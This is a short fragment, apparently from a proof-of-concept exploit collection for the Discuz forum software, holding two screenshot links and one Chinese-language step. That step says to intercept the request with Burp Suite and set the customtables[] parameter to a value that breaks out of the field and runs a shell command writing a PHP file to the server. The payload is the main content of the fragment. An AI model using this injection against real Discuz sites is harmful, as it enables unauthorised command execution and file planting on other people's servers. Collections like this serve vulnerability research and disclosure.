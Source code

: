 ![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/51.png)

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/52.png)

提交，使用burpsuit抓包，修改customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #
